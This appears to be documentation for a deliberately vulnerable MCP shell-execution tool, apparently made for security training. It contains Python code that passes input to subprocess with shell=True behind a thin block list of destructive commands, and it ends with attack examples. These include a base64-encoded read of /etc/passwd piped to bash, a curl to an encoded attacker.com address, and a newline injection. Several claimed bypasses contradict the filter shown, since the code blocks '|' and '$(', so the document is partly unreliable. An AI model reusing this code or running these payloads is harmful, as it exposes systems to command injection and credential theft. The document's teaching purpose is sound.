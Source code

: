 
### 2. Shell Command Execution

**execute_command(command: str)**
```python
def execute_command(command: str) -> str:
    """Execute shell commands with basic safety checks."""
    # ✅ FOLLOWING MCP BEST PRACTICE: Input validation
    if not isinstance(command, str) or not command.strip():
        return "Error: Invalid command"

    # ✅ FOLLOWING MCP BEST PRACTICE: Block obviously dangerous commands
    dangerous_commands = ['rm -rf', 'dd if=', 'format', 'mkfs', ':(){:|:&};:']
    if any(danger in command.lower() for danger in dangerous_commands):
        return f"Error: Dangerous command blocked"

    # ✅ FOLLOWING MCP BEST PRACTICE: Block obvious shell injection
    dangerous_chars = [';', '|', '&', '$(', '`']
    if any(char in command for char in dangerous_chars):
        return f"Error: Shell metacharacters not allowed"

    # ✅ FOLLOWING MCP BEST PRACTICE: Logging for audit (simulated HITL)
    logger.info(f"Executing command: {command[:100]}")

    # ❌ SECURITY GAP: Still uses shell=True for convenience
    # ❌ SECURITY GAP: Can use command substitution via $() or backticks
    # ❌ SECURITY GAP: Can encode payloads in base64
    # ❌ SECURITY GAP: Redirects not blocked
    # ❌ SECURITY GAP: Newlines not checked

    try:
        result = subprocess.run(
            command,
            shell=True,  # ❌ SECURITY GAP: shell=True still used!
            capture_output=True,
            text=True,
            timeout=10
        )
        return result.stdout + result.stderr
    except Exception as e:
        return f"Error: {str(e)}"
```

**Security Posture**:
- ✅ Blocks rm -rf, dd, obvious patterns
- ✅ Blocks ; | & for basic injection protection
- ❌ **Exploitable**: Base64 encoding bypasses char filter
- ❌ **Exploitable**: URL encoding bypasses pattern matching
- ❌ **Exploitable**: Newlines can bypass single-line checks
- ❌ **Exploitable**: shell=True still allows many tricks

**Attack Examples**:
```bash
# ❌ BLOCKED
execute_command("ls; cat /etc/passwd")
execute_command("rm -rf /")

# ✅ WORKS - Encoding bypasses
execute_command("echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash")
execute_command("curl $(echo aHR0cDovL2F0dGFja2VyLmNvbQ== | base64 -d)")

# ✅ WORKS - Newlines bypass
execute_command("ls\ncat /etc/passwd")
```

---